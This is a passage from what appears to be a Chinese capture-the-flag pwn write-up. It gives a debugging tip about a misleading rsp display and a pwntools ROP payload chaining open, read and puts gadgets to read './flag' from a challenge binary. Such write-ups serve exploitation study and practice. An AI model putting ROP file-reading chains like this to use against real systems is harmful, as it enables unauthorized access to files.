 [![](assets/1708654729-0ea0e67bfe213003759d513fc002b3bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011856-20d482ae-d014-1.png)  
需要注意的是上面的 rsp 位置显示的是不正确的 (0x404200-->'./flag')，这里直接跑到下面去下断点，然后调试就可以看出来

```plain
pl=b'./flag\x00\x00'+p64(rdi)+p64(bss)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(open_addr)
pl+=p64(rdi)+p64(3)+p64(rsi)+p64(bss+0x400)+p64(rdx)+p64(0x100)+p64(read_addr)
pl+=p64(rdi)+p64(bss+0x400)+p64(puts_addr)
s(pl)
```

[![](assets/1708654729-dc9fd523542cf07f96aefe458c8065a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011910-293604ae-d014-1.png)
